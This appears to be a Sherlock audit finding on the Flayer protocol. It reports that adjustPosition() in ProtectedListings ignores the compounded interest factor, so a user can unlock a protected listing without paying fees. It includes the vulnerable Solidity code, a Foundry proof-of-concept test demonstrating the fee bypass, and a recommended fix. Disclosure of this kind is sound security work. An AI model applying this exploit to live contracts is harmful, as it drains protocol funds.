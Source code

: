 Ripe Zinc Duck

High

# User can unlock protected listing without paying any fee.

## Summary
`ProtectedListings.adjustPosition()` function adjust `listing.tokenTaken` without considering compounded factor. Exploiting this vulnerability, user can unlock protected listing without paying any fee.


## Vulnerability Detail
`ProtectedListings.adjustPosition()` function is following.
```solidity
    function adjustPosition(address _collection, uint _tokenId, int _amount) public lockerNotPaused {
        // Ensure we don't have a zero value amount
        if (_amount == 0) revert NoPositionAdjustment();

        // Load our protected listing
        ProtectedListing memory protectedListing = _protectedListings[_collection][_tokenId];

        // Make sure caller is owner
        if (protectedListing.owner != msg.sender) revert CallerIsNotOwner(protectedListing.owner);

        // Get the current debt of the position
        int debt = getProtectedListingHealth(_collection, _tokenId);

        // Calculate the absolute value of our amount
        uint absAmount = uint(_amount < 0 ? -_amount : _amount);

        // cache
        ICollectionToken collectionToken = locker.collectionToken(_collection);

        // Check if we are decreasing debt
        if (_amount < 0) {
            // The user should not be fully repaying the debt in this way. For this scenario,
            // the owner would instead use the `unlockProtectedListing` function.
            if (debt + int(absAmount) >= int(MAX_PROTECTED_TOKEN_AMOUNT)) revert IncorrectFunctionUse();

            // Take tokens from the caller
            collectionToken.transferFrom(
                msg.sender,
                address(this),
                absAmount * 10 ** collectionToken.denomination()
            );

            // Update the struct to reflect the new tokenTaken, protecting from overflow
399:        _protectedListings[_collection][_tokenId].tokenTaken -= uint96(absAmount);
        }
        // Otherwise, the user is increasing their debt to take more token
        else {
            // Ensure that the user is not claiming more than the remaining collateral
            if (_amount > debt) revert InsufficientCollateral();

            // Release the token to the caller
            collectionToken.transfer(
                msg.sender,
                absAmount * 10 ** collectionToken.denomination()
            );

            // Update the struct to reflect the new tokenTaken, protecting from overflow
413:        _protectedListings[_collection][_tokenId].tokenTaken += uint96(absAmount);
        }

        emit ListingDebtAdjusted(_collection, _tokenId, _amount);
    }
```
As can be seen in `L399` and `L413`, `_protectedListings[_collection][_tokenId].tokenTaken` is updated without considering compounded factor. Exploiting this vulnerability, user can unlock protected listing without paying any fee.

PoC:
Add the following test code into `ProtectedListings.t.sol`.
```solidity
    function test_adjustPositionError() public {
        erc721a.mint(address(this), 0);
        
        erc721a.setApprovalForAll(address(protectedListings), true);

        uint[] memory _tokenIds = new uint[](2); _tokenIds[0] = 0; _tokenIds[1] = 1;

        IProtectedListings.CreateListing[] memory _listings = new IProtectedListings.CreateListing[](1);
        _listings[0] = IProtectedListings.CreateListing({
            collection: address(erc721a),
            tokenIds: _tokenIdToArray(0),
            listing: IProtectedListings.ProtectedListing({
                owner: payable(address(this)),
                tokenTaken: 0.4 ether,
                checkpoint: 0
            })
        });
        protectedListings.createListings(_listings);

        vm.warp(block.timestamp + 7 days);

        // unlock protected listing for tokenId = 0
        assertEq(protectedListings.unlockPrice(address(erc721a), 0), 402055890410801920);
        locker.collectionToken(address(erc721a)).approve(address(protectedListings), 0.4 ether);
        protectedListings.adjustPosition(address(erc721a), 0, -0.4 ether);
        assertEq(protectedListings.unlockPrice(address(erc721a), 0), 0);
        protectedListings.unlockProtectedListing(address(erc721a), 0, true);
    }
```
In the above test code, we can see that `unlockPrice(address(erc721a), 0)` is `402055890410801920`, but after calling `adjustPosition(address(erc721a), 0, -0.4 ether)`, `unlockPrice(address(erc721a), 0)` decreases to `0`. So we unlocked protected listing paying only `0.4 ether` without paying any fee.

## Impact
User can unlock protected listing without paying any fee. It means loss of funds for the protocol.
On the other hand, if user increase `tokenTaken` in `adjustPosition()` function, increasement of fee will be inflated by compounded factor. it means loss of funds for the user.

## Code Snippet
https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/ProtectedListings.sol#L366-L417

## Tool used

Manual Review

## Recommendation
Adjust `tokenTaken` considering compounded factor in `ProtectedListings.adjustPosition()` function. That is, divide `absAmount` by compounded factor before updating `tokenTaken`.